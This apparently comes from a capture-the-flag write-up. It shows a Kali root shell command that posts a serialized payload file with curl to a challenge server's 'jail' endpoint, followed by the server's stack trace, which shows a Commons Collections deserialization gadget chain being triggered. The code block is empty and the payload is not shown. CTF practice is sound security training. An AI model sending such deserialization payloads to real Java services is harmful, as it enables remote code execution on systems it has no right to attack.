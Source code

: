 ```java
```
```txt
root@kali:~# curl "http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail" --data-binary @Payload.ser 
org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'invoke' on 'class java.lang.reflect.Method' threw an exception
    at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:132)
    at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
    at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
    at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
    at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
    at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:498)
    at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
    at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
    at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
    at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
    at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
    at com.trendmicro.Server.doPost(Server.java:31)
    at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
    at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
    at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
    at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
    at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
    at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
    at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
    at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
    at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
    at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
    at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
    at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
    at org.apache.catalina.valves.RemoteIpValve.invoke(RemoteIpValve.java:685)
    at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
    at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
    at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
    at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
    at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
    at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:800)
    at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1471)
    at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
    at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
    at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.reflect.InvocationTargetException
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:498)
    at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
    ... 40 more
Caused by: java.lang.reflect.InvocationTargetException
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
```
